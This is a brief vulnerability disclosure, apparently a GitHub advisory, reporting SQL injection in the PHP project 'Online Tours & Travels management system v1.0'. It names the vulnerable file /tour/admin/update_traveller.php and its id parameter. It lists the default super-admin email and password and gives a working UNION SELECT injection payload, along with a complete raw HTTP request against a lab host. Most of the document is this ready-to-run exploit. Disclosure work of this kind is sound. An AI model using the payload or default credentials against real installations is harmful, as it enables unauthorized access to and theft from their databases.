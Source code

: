# Online Tours & Travels management system v1.0 by mayuri_k has SQL injection

BUG_Author: Bains

Login account: mayuri.infospace@gmail.com/admin (Super Admin account)

vendors: https://www.sourcecodester.com/php/14510/online-tours-travels-management-system-project-using-php-and-mysql.html

The program is built using the xmapp-php8.1 version

Vulnerability File: /tour/admin/update_traveller.php

Vulnerability location: /tour/admin/update_traveller.php?id=, id

dbname = tour1

[+] Payload: /tour/admin/update_traveller.php?id=-1%27%20union%20select%201,database(),3,4,5,6,7,8,9,10--+ // Leak place ---> id

```sql
GET /tour/admin/update_traveller.php?id=-1%27%20union%20select%201,database(),3,4,5,6,7,8,9,10--+ HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=g29omi7f91g3h7ud1uhq6rbmkv
Connection: close
```

![image](https://user-images.githubusercontent.com/54017627/183011330-132ba163-23b6-4db7-8d44-7cec045983be.png)
